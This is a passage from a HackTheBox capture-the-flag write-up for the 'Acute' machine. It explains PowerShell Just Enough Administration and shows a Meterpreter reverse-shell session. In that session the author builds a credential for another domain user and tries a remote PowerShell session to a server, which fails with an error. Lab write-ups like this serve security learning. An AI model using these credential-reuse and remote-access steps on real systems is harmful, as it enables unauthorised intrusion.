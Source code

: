 ![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Acute/images/Pasted%20image%2020230815202003.png)

**Just Enough Administration? It Sounds very straight forward.**

> The **Just Enough Administration (JEA)** feature is available starting from [PowerShell version](https://woshub.com/check-powershell-version-installed/) 5.0 and allows you to delegate administrative privileges to anything you can manage with PowerShell. The main purpose of PowerShell JEA is to limit privileges. JEA allows you to grant non-admin users permissions to perform specific administrative tasks without giving them server or service administrator rights (AD, Exchange, SharePoint, etc.). Using JEA, you can set which users can run specific cmdlets, functions or PowerShell scripts with admin privileges and log all actions (similar to [PowerShell command history](https://woshub.com/powershell-commands-history/)). (From [https://woshub.com/using-powershell-just-enough-administration-jea/](https://woshub.com/using-powershell-just-enough-administration-jea/))

**TLDR: JEA is to limit what a domain user can or can't do. (Principle of Least Privilege)**

**In our Meterpreter reverse shell, if we type the exact PowerShell script, we get the exact error message from the screenshots:**
```shell
meterpreter > shell
[...]
C:\Users\edavies\Documents>powershell
[...]
PS C:\Users\edavies\Documents> $passwd = ConvertTo-SecureString "{Redacted}" -AsPlainText -Force
PS C:\Users\edavies\Documents> $cred = New-Object System.Management.Automation.PSCredential ("acute\imonks",$passwd)
PS C:\Users\edavies\Documents> Enter-PSSession -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
Enter-PSSession : The term 'Measure-Object' is not recognized as the name of a cmdlet, function, script file, or 
operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try 
again.
At line:1 char:1
+ Enter-PSSession -ComputerName ATSSERVER -ConfigurationName dc_manage  ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (Measure-Object:String) [Enter-PSSession], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```
